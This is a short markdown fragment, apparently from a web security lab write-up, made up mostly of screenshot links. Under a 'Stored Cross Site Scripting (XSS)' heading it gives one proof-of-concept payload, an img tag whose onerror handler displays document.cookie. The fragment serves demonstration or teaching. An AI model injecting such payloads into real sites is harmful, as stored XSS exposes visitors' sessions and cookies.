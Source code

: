![alt text](images/photo_19.png)

output

![alt text](images/photo_20.png)

### Stored Cross Site Scripting (XSS)

input

```bash
<img src=x onerror=alert(document.cookie) />
```

![alt text](images/photo_21.png)
